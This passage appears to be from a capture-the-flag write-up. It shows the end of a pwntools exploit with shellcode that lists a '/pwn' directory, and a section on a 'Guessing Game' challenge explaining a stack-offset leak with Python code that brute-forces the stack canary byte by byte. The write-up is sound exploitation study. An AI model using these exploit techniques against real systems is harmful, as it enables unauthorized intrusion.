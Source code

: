 ```python
        mov rsi, {}
        mov rdx, 0x100
        syscall

        mov rax, 2
        mov rdi, {}
        xor rsi, rsi
        mov rdx, 0x200000
        syscall

        mov rdi, rax
        mov rsi, {}
        mov rdx, 0x400
        mov rax, 78
        syscall

        mov rax, 1
        mov rdi, 1
        mov rsi, {}
        mov rdx, 0x400
        syscall
'''.format(buf+0x100, buf+0x100, buf+0x100, buf+0x100))
if args.R:
        r.sendline(payload)
else:
        r.sendlineafter('?\n', payload)
sleep(0.2)
r.send('/pwn'.ljust(0x100, '\x00'))
```

# The Guessing Game
It is a game to guess the number on the stack, but if the answer value is too large or too small, it will be output, and it will be an infinite loop until you answer correctly 8 times. There is no limit to the offset specification. You can use this to leak any eight places on the stack.

Furthermore, the counter is not consumed unless the numbers match, so you can earn a little more bytes to leak. Specifically, you can increase it by 2, and when output is `too large`, you can leak the byte without consuming the counter. This case occurs in 50%, but I just want 7 bytes for canary and 5 bytes for libc, so it should be enough.

When I tried it in the docker environment, the input was accepted and there was no output, so I had to use `exec 2> & 0; exec 1> & 0;` to display output.

```python
def get_canary():
        out = 0
        waste = 0
        for i in range(7):
                for j in range(0, 0x100, 2):
                        r.sendlineafter('? ', str(33+i))
                        r.sendlineafter(': ', str(j))
                        result = r.recvuntil('\n')
                        if "low" in result:
                                continue
                        elif "high" in result:
                                num = j - 1
                                break
                        else:
                                num = j
                                waste += 1
                                break
                out |= num << ((i+1)*8)
                # print "canary:", hex(out)
```